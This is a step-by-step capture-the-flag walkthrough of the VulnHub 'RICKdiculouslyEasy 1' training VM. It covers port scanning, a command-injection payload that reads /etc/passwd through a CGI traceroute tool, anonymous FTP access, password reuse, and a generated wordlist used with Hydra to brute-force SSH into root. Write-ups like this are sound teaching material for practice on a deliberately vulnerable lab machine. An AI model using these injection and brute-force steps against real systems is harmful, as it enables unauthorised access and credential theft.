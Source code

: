 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown -> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/04.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/4.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code
![](Assets/6.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/7.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/11.PNG)
> Found /cgi-bin/root_shell.cgi

> Found /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/12.PNG)
> Nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/13.PNG)
![](Assets/14.PNG)
> Vulnerable to command injection

![](Assets/15.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload -> ; more /etc/passwd
![](Assets/16.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/8.PNG)
> logged in

![](Assets/9.PNG)
![](Assets/9.1.PNG)
> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg

![](Assets/22.PNG)
> Pull jpg file in host machine

![](Assets/23.PNG)
> Got safe password

![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points

![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
